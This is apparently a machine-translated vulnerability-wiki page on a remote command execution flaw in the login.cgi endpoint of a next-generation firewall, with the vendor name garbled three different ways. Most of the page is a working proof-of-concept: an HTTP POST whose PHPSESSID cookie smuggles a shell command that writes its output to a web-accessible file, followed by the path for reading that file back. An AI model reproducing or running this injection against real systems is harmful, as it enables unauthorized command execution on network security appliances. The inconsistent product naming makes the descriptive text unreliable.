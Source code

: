 # Deepin Consensus NGAF next-generation firewall login.cgi remote command execution vulnerability

## Vulnerability Description

Deepinfo Next Generation Firewall is a next-generation application firewall designed based on application security needs. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Shenxin NGAF next-generation firewall</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"Redirect.php?url=LogInOut.php"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697639705479-39cc829b-1edc-4102-9b01-1f5d6c9bac5a-20231108133116891.png)

Verify POC

```plain
POST /cgi-bin/login.cgi HTTP/1.1 
Host: 
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
y-forwarded-for: 127.0.0.1
Cookie: PHPSESSID=`$(id > /fwlib/sys/virus/webui/svpn_html/3.txt)`;

{"opr":"login", "data":{"user": "watchTowr" , "pwd": "watchTowr" , "vericode": "NSLB" , "privacy_enable": "0"}}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697639728998-9a5a3f9a-a49d-4e24-b9c6-0c4cf34100ec.png)

```plain
/svpn_html/3.txt
```